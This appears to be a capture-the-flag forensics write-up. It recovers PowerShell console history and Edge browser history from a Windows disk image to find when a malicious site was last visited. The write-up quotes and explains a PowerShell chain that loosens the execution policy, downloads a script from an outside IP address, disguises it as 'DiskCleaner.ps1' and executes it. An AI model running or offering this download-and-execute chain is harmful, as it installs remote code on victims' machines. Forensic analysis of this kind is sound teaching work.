



<h1>CTF@CIT 2026 — The click that may have fixed (writeup)</h1>

  

From the description of the challenge, we can already tell what to focus on: the executed powershell commands and the history of whatever browser that was ever used on here

For the commands, we can find and analyze the artifact known as ConsoleHost_history.txt, this file stores a plaintext history of commands typed in interactive PowerShell sessions. It’s located at: \challenge\kurt_backup\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

  

As you can see, a short PowerShell script was executed, it downloaded and ran a remote script, which is a common malware pattern. Step-by-step of how it works:

Set-ExecutionPolicy RemoteSigned -Scope CurrentUser  
→ Loosens PowerShell security so scripts can run more easily.

$p=’unewhaven.com’; Test-Connection $p -Count 6 | Out-Null  
→ Pings a domain a few times (likely to check internet connectivity).

$j=’http://23.179.17.92/az.ps1'  
→ Defines a URL pointing to a remote PowerShell script.

$c=Join-Path $env:APPDATA ‘DiskCleaner.ps1’  
→ Chooses a local path in AppData to save it (looks harmless by name).

Start-BitsTransfer -Source $j -Destination $c  
→ Downloads the remote script to that location.

& $c  
→ Executes the downloaded script.

For the browser’s history, there is a specific artifact named History, this is a database that contains pretty much everything that has ever happened within the browser session, such as visited URLs, timestamps of those visits, page titles, and the number of times a site was accessed. It is stored at: \challenge\kurt_backup\AppData\Local\Microsoft\Edge\User Data\Default

  

As the goal is to identify what time the website was last visited, we will list out everything that is stored in the urls table which contains the most important fields: last_visit_time

Since the challenge mentioned about someone tried to download more RAM and then got pwned, we can already tell the most suitable candidate which is https://23.179.17.92:5067/ since it matches with the url included in the PowerShell script and the title pretty much gave it away. Take its last_visit_time, convert it from WebKit timestamp (µs since 1601) to ISO 8601 UTC and we got ourselves the flag
